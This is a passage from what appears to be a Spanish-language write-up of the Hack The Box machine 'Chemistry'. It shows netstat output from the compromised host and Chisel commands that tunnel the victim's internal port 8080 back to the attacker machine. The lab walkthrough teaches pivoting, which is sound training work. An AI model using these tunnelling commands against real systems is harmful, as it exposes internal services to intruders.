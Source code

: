 Después de enumerar varios puntos observamos que está corriendo un servicio en el localhost de la máquina por el puerto `8080`.

```bash
rosa@chemistry:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      2 10.10.11.38:59338       10.10.14.19:443         ESTABLISHED
tcp        1      0 10.10.11.38:5000        10.10.14.19:42582       CLOSE_WAIT 
tcp        0      1 10.10.11.38:53258       8.8.8.8:53              SYN_SENT   
tcp        0      0 10.10.11.38:44456       10.10.14.19:443         ESTABLISHED
tcp        1      0 10.10.11.38:5000        10.10.14.19:52398       CLOSE_WAIT 
tcp        1      0 10.10.11.38:5000        10.10.14.19:37112       CLOSE_WAIT 
tcp6       0      0 :::22                   :::*                    LISTEN    
```

Con [Chisel](https://github.com/jpillora/chisel) aplicaremos Port Forwarding para traernos a nuestra máquina el servicio que corre por el puerto 8080 de la máquina víctima.

`MAQUINA ATACANTE`
```bash
❯ ./chisel server --reverse -p 1234
2024/11/09 19:45:12 server: Reverse tunnelling enabled
2024/11/09 19:45:12 server: Fingerprint ruLKW0yg0PRD+swhlPcebir4JGqiAo0cy/iM+QmJ4wY=
2024/11/09 19:45:12 server: Listening on http://0.0.0.0:1234
2024/11/09 19:46:02 server: session#1: tun: proxy#R:8080=>8080: Listening
```

`MAQUINA VICTIMA`
```bash
rosa@chemistry:/tmp$ ./chisel client 10.10.14.19:1234 R:8080:127.0.0.1:8080
2024/11/09 18:45:52 client: Connecting to ws://10.10.14.19:1234
2024/11/09 18:45:52 client: Connected (Latency 56.350349ms)
```

Ya podemos acceder desde nuestro navegador a `localhost:8080`.

<img src="/assets/HTB/Chemistry/8080.png">
